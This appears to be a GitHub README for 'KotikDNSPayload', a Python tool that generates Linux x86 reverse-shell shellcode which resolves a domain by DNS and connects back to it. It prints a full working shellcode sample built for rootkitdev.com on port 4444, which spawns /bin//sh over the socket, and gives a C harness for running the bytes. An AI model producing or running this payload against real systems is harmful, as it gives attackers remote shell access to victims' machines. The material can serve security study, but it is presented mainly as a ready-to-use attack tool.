 # KotikDNSPayload
ReverseDnsPayload -- The First and Only In The World! 

## Currenty working on uploading this to Metapsloit Stay Tuned!




![xitriykotik](https://github.com/ApertureSecurity/KotikDNSPayload/blob/master/HitriyKotik.png)


```
Hitriy Kotik (Tricky Cat) is my name and I like dealing in shellcode. I have something special in the market place for you! 

 !!!!! A Reverse DNS TCP Payload For Linux !!!!! 

 Tell Me , a few things and I will generate the shellcode for you!
[+] Tell Me The Domain You wish To Connect Back To : rootkitdev.com
[+] Tell Me The Port   You Wish To Connect Back To : 4444
[+] I Am Making Your PayLoad Right Now....
[+] ASM Created Successfully....
[+] Nasm Compiling........
[+] Objdumping........


\x6a\x66\x58\x6a\x01\x5b\x31\xc9\x51\x6a\x02\x6a\x02\x89\xe1\xcd\x80\x50\x68\x08\x08\x08\x08\x31\xd2\xb6\x35\x66\x52\x66\x6a\x02\x89\xe1\x6a\x10\x51\x50\x89\xe1\x89\xc6\x31\xc0\xb0\x66\x80\xc3\x02\xcd\x80\x31\xc0\xb0\x66\x6a\x00\x68\x00\x01\x00\x01\x68\x63\x6f\x6d\x00\x68\x64\x65\x76\x03\x68\x74\x6b\x69\x74\x68\x0a\x72\x6f\x6f\x6a\x00\x68\x00\x01\x00\x00\x68\xaa\xaa\x01\x00\x89\xe2\x31\xc9\x51\x6a\x40\x52\x56\x89\xe1\x31\xdb\xb3\x09\xcd\x80\xb8\x03\x00\x00\x00\xbb\x03\x00\x00\x00\x89\xe1\xba\x64\x00\x00\x00\xcd\x80\x01\xc4\x83\xec\x04\x8b\x04\x24\x50\x31\xd2\x6a\x66\x58\x6a\x01\x5b\x52\x53\x5a\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x6a\x66\x58\x6a\x03\x5b\x52\x66\x68\x5c\x11\x66\x6a\x02\x89\xe7\x6a\x10\x57\x56\x89\xe1\xcd\x80\x89\xf3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\xbc\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80


```



# To Run:
simply run ...
```
python hitriykotik.py 
```

and you'll be greeted by the Cat above and he will ask you a couple of questions and use nasm and objdump to give you yourshellcode.

# Requirements

Linux is desireable, but not required.
1. python2.7
2. nasm
3. objectdump


# For Testing:
Make a C file and compile using
```
gcc -m32 test.c -o test
``` 
```
#include<stdio.h>
#include<string.h>

const char shellcode[] =  "\0x00\YOUR\SHELL\CODE\0x00\";



int main(){
    int (*ret)() = (int(*)())shellcode;
    ret();
}


```

# Known Issues:
I am reading from a socket For the DNS response. Read will wait until the socket has a buffer to read from. This means that if you receive no DNS response , your program will wait indefinitley. 

### Stay Secure My Friends!